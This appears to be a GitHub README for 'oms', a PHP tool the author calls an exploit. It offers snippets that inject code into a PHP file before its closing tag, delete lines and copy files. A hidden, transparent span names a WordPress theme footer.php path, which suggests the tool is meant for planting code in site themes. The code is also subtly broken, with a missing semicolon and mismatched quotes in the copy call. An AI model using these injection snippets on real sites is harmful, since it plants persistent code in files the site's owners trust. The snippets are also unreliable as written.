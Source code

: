 # oms
 An "Old Man of the Sea" based exploit on PHP

#helpful usages

<pre>
//adding
$data="echo 'hello world!'";
$filecontent=file_get_contents('file.php')
$pos=strpos($filecontent, '?>');
$filecontent=substr($filecontent, 0, $pos)."\r\n".$data."\r\n".substr($filecontent, $pos);
echo file_put_contents("file.php", $filecontent);

 
//removing lines
$row_number = 22;
$file_out = file("file.php");
unset($file_out[$row_number]);
file_put_contents("file.php", implode("", $file_out));


//copying
echo copy("file.php,"target.php");
</pre>

<span style="opacity:0">../wp-content/themes/cooltheme/footer.php</span>
